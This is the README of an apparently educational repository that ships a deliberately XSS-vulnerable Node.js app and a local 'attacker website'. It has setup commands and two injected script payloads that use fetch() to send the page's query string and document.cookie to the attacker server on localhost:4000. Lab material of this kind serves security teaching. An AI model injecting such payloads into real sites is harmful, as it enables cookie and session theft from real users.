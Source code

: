 This repository contains a sample web application with Cross-Site Scripting (XSS) vulnerabilities and its attacker website.

---
### Technology

This project uses the following technologies:

-  [Node.js](https://nodejs.org/)

### Running the Application

2. Move to the root folder of the project (`xss-sample-app`) in your machine and install the dependencies by running the following command:

   ```shell
   npm install
   ```

3. To launch the web application, run the following command:

   ```shell
   node server.js
   ```

4. Point your browser to [http://localhost:3000](http://localhost:3000) to access the sample web app.

5. To launch the attacker website, run the following command:

   ```shell
   node attacker-server.js
   ```

6. Point your browser to [http://localhost:4000](http://localhost:4000/) to access the attacker website


### Reflected XSS - Be the hacker

1. Inject the malicious code as a review:
`<script>fetch(`http://localhost:4000?data=${encodeURIComponent(window.location.search)}`)</script>`

2. Open the sample web app in another browser tap and insert a custom review and submit it.

3. How does the attacker website looks like after refreshing the attackers website?


### What if malicious code looks like:
`<script>fetch(`http://localhost:4000?data=${document.cookie}`)</script>`

